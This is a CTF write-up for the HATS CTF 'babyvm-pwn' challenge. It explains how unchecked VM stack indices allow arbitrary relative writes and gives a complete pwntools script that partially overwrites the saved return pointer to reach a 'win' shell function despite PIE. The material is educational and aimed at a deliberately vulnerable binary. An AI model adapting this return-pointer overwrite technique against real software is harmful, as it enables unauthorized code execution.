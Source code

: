 ```yaml
---
title: "babyvm-pwn [500]"
tags: [HATS CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation

> Now the vm is hosted on a server, i feel like there is something hidden in the server too...  
> 
> nc challs.hats.sg 1308

Hint:  
> Can you modify the return pointer?

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/HATS%20CTF/Binary%20Exploitation/babyvm-pwn%20%5B500%5D){: .btn .btn--primary}

## Write-up
Before reading this writeup, I suggest reading the writeup for **[babyvm-re [500]](/babyvm-re/)** if you have not done so. The explanation of source code and "reversing part" of the challenge is explained there.

We start by running `checksec` on the binary:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Note that both ASLR and PIE are enabled. ASLR randomizes the address of the stack, heap and libc, while PIE randomizes the address of .text section by initializing a random offset everytime the binary is run. This means the address of user defined functions in code, such as **win** or **main**, will not be fixed.

Here are the important parts of the source code:

**vmstep** function:
```c
int vmstep(char op,char* stack){
    switch(op | 0x20){
        case '0':
        case '1':
        case '2':
        case '3':
        case '4':
        case '5':
        case '6':
        case '7':
        case '8':
        case '9':
            ax = (op | 0x20) - 0x30;
            break;
        case 'a':
            ax += stack[sp];
            break;
        case 'd':
            --ax;
            break;
        case ' ':
        case 'e':
            return 0;
        case 'i':
            ++ax;
            break;
        case 'j':
            ip += ax - 1;
            break;
        case 'm':
            ax *= stack[sp];
            break;
        case 'p':
            printf("%c",stack[sp]);
            break;
        case 'r':
            sp = ax;
            break;
        case 's':
            ax -= stack[sp];
            break;
        case 'u':
            stack[sp] = ax;
            break;
        case 'z':
            if(stack[sp] == 0){
                ip += ax - 1;
            }
            break;
        default:
            break;
    }
    return 1;
}
```

Part of the code in **main**:
```c
    char key[101]={},
         stack[101]={},
         input[1337]={},
         code1[] = "2u4mmimmiup2u6mimimimup2u7mmimmup2u6mmimmiup2u7mmmimup2u4mmmup2u7mmimmup2u6mimmmup2u6mmimmiup2u4mmmup2u6mimmimiup2u6mmimmiup2u7mimmmiup2u5mup",
         code2[] = "2u5mmimimup2u6mmimmiup2u7mmmimup2u6mimmmiup2u6mmimimup2u7mimmmiup2u6mimmmiup2u6mimimimup2u6mmimimiup2u5mup",
         code3[] = "0r2u6mmr2u6mmimmiu0r2u5mimir2u5mmmu0r2u5mimr2u4mmmiu0r2u5mmir2u5mmmimiu0r2u5mmr2u4mimmiu0r2u4mimir2u7mimu0r2u4mimr2u6mmmmu0r2u4mmir2u4mimimimu0r2u4mmr2u5mimimimu0r2u7mir2u6mmimimu0r2u7mr2u5mimmmu0r2u6mir2u5mmmimu0r2u6mr2u5mmmiu0r2u5mir2u4mimimu0r2u5mr2u5mmimmiu9r2u5mmimu8r2u6mimmimu7r2u5mimmmu6r2u6mmimimiu5r2u7mmmmiu4r2u7mmimimiu3r2u5mmmmu2r2u5mmmimu1r2u4mmmmu0r2u4mimmmu",
         code4[] = "2u5mmimimiup2u7mmmimup2u6mimimimiup2u6mimimimup2u6mmimimiup2u4mmmup2u6mimmimiup2u6mmimmiup2u7mimmmiup2u4mmmiup2u5mup",
         code5[] = "2u4mmimimup2u6mimimmup2u6mmmmiup2u6mmimimiup2u4mmmup2u7mmimup2u4mmmup";
    int i;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    vmexec(code1,stack);
    scanf("%1337s", &input);
    vmexec(code2,stack);
    vmexec(input,key);
    vmexec(code3,stack);
```

The challenge has a vulnerability similar to a buffer overflow. The statement `vmexec(input,key);` allows us to write instructions to overwrite values in the `key` buffer. However, as **vmstep** does not check `ax` to ensure its value is within range of the buffer, we are essentially able to overwrite any location in memory relative to the location of `key` in memory. 

These instructions are essential to exploiting the vulnerability:
* `0` sets the value of `ax` to 0.
* `d` decreases the value of `ax` by 1.
* `i` increases the value of `ax` by 1.
* `r` sets the value of `sp` to the value of `ax`. Basically, `sp = ax`.
* `a` adds the value at `stack[sp]` to `ax`. Basically, `ax += stack[sp]`.
* `u` sets the value at `stack[sp]` to the value of `ax`. Basically, `stack[sp] = ax`.

Here's an example to help you visualize the vulnerability. If the input contains: 
```python 
'0' + 'i'*999 + 'ru'
```
We would overwrite `key[999]` with the value 999. As seen in the example, we are able to overwrite any area in memory as long as our payload is not more than 1337 characters.

The exploit works by overwriting the return instruction pointer (RIP) with the address of **win**, which would give us a shell. Developing the exploit has 3 stages:

1. **Finding the offset of RIP**  
We can find the offset of RIP from the `key` buffer by a trial and error process. This can be done by overwriting every value up to a certain offset and using gdb to check if RIP is overwritten. We increase the offset if gdb is not overwritten, and decrease if it is overwritten. Keep in mind that the address of RIP would be smaller than the address of `key`, hence the offset should be negative.

2. **Calculating the address of win**  
Due to PIE, the address of **win** will change everytime the binary is run. This means that the base offset of the address will change and only the last 2 bytes are known.   

   Luckily for us, when we overwrite RIP, it contains the address of `main + 1501`. This means we only have to overwrite the last 2 bytes of RIP to call **win**, thus bypassing PIE. The last byte of **win**, which is fixed, is 0xa1. We can calculate the second last byte using `offset = (saved_rip - win) >> 8`, where `saved_rip` is the address of `main + 1501` and `win` is the address of **win**. This works as the difference between **win** and `main + 1501` is constant regardless of PIE.

3. **Overwriting RIP with the address of win**  
An offset of 103 overwrites the second last byte of RIP while 104 overwrites the last byte. The following code overwrites the last 2 bytes of RIP to become the address of **win**:
   ```python
    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
   ```    

Here's the final exploit used to solve the challenge:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./chal",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1308,
}

def exploit(p):
    win = elf.symbols['win']
    saved_rip = elf.symbols['main']+1501
    offset = (saved_rip - win) >> 8

    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
  
    sla("Enter the key\n", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** HATS{vm5_4r3_c00l_4r3n7_7h3y}